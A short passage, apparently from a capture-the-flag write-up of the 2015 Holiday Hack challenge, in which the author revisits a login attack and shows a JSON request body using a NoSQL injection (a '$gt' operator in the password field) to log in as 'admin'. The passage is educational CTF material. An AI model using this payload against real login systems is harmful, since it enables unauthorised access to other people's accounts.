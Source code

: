 ![sg-03](/assets/images/holidayhack2015/sg03_5.png)

Strange.. It looks like we are actually logged in as a non-admin. Time to revisit our attack vector.

Instead of asking for the first user with our attack vector, can we specify `admin` specifically?

```
Content-Type: application/json
{
        "username": "admin",
        "password": {"$gt": ""}
}
```
